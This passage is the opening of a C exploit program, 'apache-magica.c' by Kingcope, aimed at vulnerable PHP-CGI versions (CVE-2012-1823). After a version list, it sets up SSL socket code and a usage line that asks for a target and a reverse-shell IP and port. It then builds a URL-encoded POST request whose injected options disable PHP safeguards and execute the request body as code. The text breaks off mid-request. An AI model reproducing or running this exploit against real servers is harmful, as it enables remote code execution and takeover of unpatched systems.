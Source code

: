 > Affected versions
> PHP prior to 5.3.12
> PHP prior to 5.4.2
> Unaffected versions
> PHP 4 - getopt parser unexploitable
> PHP 5.3.12 and up
> PHP 5.4.2 and up
> Unaffected versions are patched by CVE-2012-1823.
> */
> /*    .
>      /'\rrq rk
>  .  // \\  .
> .x.//fco\\-|-
>  '//cmtco\\zt
>  //6meqrg.\\tq
> //_________\\'
> EJPGQO
> apache-magica.c by Kingcope
> */
>
> #include <stdio.h>
> #include <stdlib.h>
> #include <unistd.h>
> #include <getopt.h>
> #include <sys/types.h>
> #include <stddef.h>
> #include <openssl/rand.h>
> #include <openssl/ssl.h>
> #include <openssl/err.h>
> #include <netdb.h>
> #include <sys/socket.h>
> #include <netinet/in.h>
>
> typedef struct {
>     int sockfd;
>     SSL *handle;
>     SSL_CTX *ctx;
> } connection;
>
> void usage(char *argv[])
> {
>   printf("usage: %s <--target target> <--port port> <--protocol http|https> "
>   "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
>    argv[0]);
>   exit(1);
> }
>
> char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"
>  "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"
>  "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"
>  "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"
>  "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"
>  "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"
>  "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"
>  "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"
>  "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"
>  "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"
>  "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"
>  "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"
>  "Host: %s\r\n"
>  "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"
>  "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"
>  "Content-Type: application/x-www-form-urlencoded\r\n"
>  "Content-Length: %d\r\n"